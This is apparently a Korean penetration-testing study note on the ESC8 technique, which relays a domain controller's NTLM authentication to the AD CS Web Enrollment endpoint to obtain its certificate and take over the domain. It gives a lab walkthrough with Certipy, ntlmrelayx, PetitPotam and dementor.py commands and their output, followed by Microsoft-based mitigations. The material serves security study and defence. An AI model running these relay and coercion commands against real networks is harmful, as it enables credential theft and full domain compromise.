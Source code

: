 # ESC8

### 개념

ADCS 에는 Web Enrollment 라는 웹 서비스가 존재한다. 이 웹 서비스는 유저, 스크립트, 프로그램 등이 ADCS 서비스와 편리하게 통신하기 위해 웹 서버와 HTTP 엔드포인트 등을 제공한다. 액티브 디렉토리 안의 서비스 답게 이 웹 서버는 기본적으로 NTLM 인증을 통해 사용자 인증이 가능하다 - 라는 말은 곧 NTLM Relay 공격에 취약 하다는 말이 된다.

ESC8 은 NTLM Relay 공격을 통해 피해자 유저/머신의 NTLM 인증 트래픽을 ADCS HTTP 엔드 포인트로 보낸 뒤, 피해자 유저/머신으로 인증서를 발급받아 사용자 인증 및 계정을 탈취하는 공격이다.

### 전제 조건

1. ADCS 서버에 Web Enrollment 가 설치되어 있다
2. NTLM Relay 를 시작할 수 있는 피해자 유저/머신과 취약점이 존재한다 (강제 인증, LLMNR/NBT-NS 포이즈닝, MITM6, 등)
3. Web Enrollment 웹 서버가 NTLM 인증을 허용한다 - 특별한 설정을 하지 않는 이상 기본적으로 허용한다.

### 실습

해당 실습에서는 강제 인증에 취약한 도메인 컨트롤러로부터 인증 트래픽을 받아 이를 CA 서버의 HTTP 엔드포인트에 릴레이하는 ESC8 공격을 실행한다. 이로서 공격자는 도메인 컨트롤러 머신 계정을 장악한. 도메인 컨트롤러 머신 계정은 DCSync 권한을 갖고 있기 때문에 도메인을 장악할 수 있게 된다.

> 도메인 컨트롤러 -> 강제 인증 -> 공격자 -> 릴레이 -> ADCS HTTP 엔드포인트 == 도메인 컨트롤러의 인증서 획득. 인증서를 이용해 도메인 컨트롤러로 인증 후 DCSync

#### 정보 수집

1. 먼저 CA와 CA의 Web Enrollment 가 존재하는지 Certipy 로 알아본다. `Web Enrollment: Enabled` 라면 웹서버가 활성화 되어 있는 것이다.

<figure><img src="../../../.gitbook/assets/image (3) (3).png" alt=""><figcaption></figcaption></figure>

2\. 정확한 확인을 위해 GUI에서는 HTTP 엔드포인트를 브라우저로 방문하거나 curl 등을 이용한다. `401 Unauthorized` 에러 메시지가 나오면 제대로 HTTP 엔드포인트가 실행 중이라는 것이다.

```
$ curl -k http://<CA-IP>/certsrv/certfnsh.asp

$ curl -k http://192.168.40.150/certsrv/certfnsh.asp                                              
[ ... ] 
<body>
<div id="header"><h1>Server Error</h1></div>
<div id="content">
 <div class="content-container"><fieldset>
  <h2>401 - Unauthorized: Access is denied due to invalid credentials.</h2>
  <h3>You do not have permission to view this directory or page using the credentials that you supplied.</h3>
```

3\. CA 서버의 HTTP 엔드포인트로 릴레이 세팅 해놓는다. Certipy 나 NTLMRelayx 를 이용한다.

<pre><code># Certipy 
<strong>certipy relay -ca &#x3C;ca-ip> 
</strong>
# ntlmrelayx 
python3 ntlmrelayx.py -t http://&#x3C;CA-IP or FDQN>/certsrv/certfnsh.asp -smb2support --adcs --template &#x3C;template>
</code></pre>

4\. 강제 인증, LLMNR/NBT-NS, MITM6 등을 이용해 도메인 컨트롤러를 공격해 NTLM Relay 공격을 실행한다.

```
# Petitpotam - 무인증 
python3 Petitpotam.py <attacker-ip> <target-ip> 

# Petitpotam - 인증 
python3 Petitpotam.py -u <user> -p <pass> <attacker-ip> <target-ip> 

# Print Spooler (dementor.py) (https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py) 
python3 dementor.py -u <user> -p <pass> -d <domain> <attacker-ip> <target-ip>

```

5\. Certipy 결과

```
certipy relay -ca dc01.choi.local -template DomainController
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Targeting http://dc01.choi.local/certsrv/certfnsh.asp
[*] Listening on 0.0.0.0:445
[*] Requesting certificate for 'PCI\\DC1$' based on the template 'DomainController'
[*] Got certificate with DNS Host Name 'dc1.pci.choi.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'dc1.pfx'
[*] Exiting...
```

(5-1. NTLMRelayx 결과)

```
[*] Authenticating against http://192.168.40.150 as PCI/DC1$ SUCCEED                                          
[*] SMBD-Thread-7 (process_request_thread): Connection from 192.168.40.160 controlled, but there are no more targets left!
[*] Generating CSR...                                  
[*] CSR generated!                                     
[*] Getting certificate...                             
[*] GOT CERTIFICATE! ID 22                             
[*] Base64 certificate of user DC1$:                   
MIIRbQIBAzCCEScGCSqGSIb3DQEHAaCCERgEghEUMIIREDCCB0cGCSqG [ ..... ] 
```

6\. 인증서를 이용해 도메인 컨트롤러의 머신 계정을 획득한다.

```
# Certipy
certipy auth -dc-ip <dc-IP> -pfx <filename>

# NTLMRelayx 
Base64 Certificate 을 저장한다. 
$ base64 -d <base64-pfx> > real.pfx 
$ certipy auth -dc-ip <dc-IP> -pfx real.pfx 
```

### 대응 방안

> 다음의 대응 방안은 마이크로소프트사의 공식 문서를 기반으로 쓰여졌다. 더 자세한 사항은 레퍼런스 섹션의 MSDN을 참고한다.

1. ADCS HTTP 엔드포인트에 Extended Protection Authentication (EPA) 을 `Required` 로 설정한다.\
   Server Manager > IIS Manager > DC/CAXX > Sites > Default Web Site > CertSrv > Authentication 더블클릭 > Windows Authentication 오른쪽 클릭 > Advanced Settings > Extended Protection: Required

<figure><img src="../../../.gitbook/assets/image (5) (3) (1).png" alt=""><figcaption></figcaption></figure>

1-1. 그 이 SSL을 활성화 한다.

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

2\. 극단적으로 CA 서버에 NTLM 인증을 비활성화 한다. 프로덕션 서버의 경우 하위 호환성에 문제가 갈 수 있기 때문에 충분한 테스트를 거친 뒤 NTLM 인증을 비활성화 한다.\


### 레퍼런스

{% embed url="https://support.microsoft.com/en-us/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429" %}

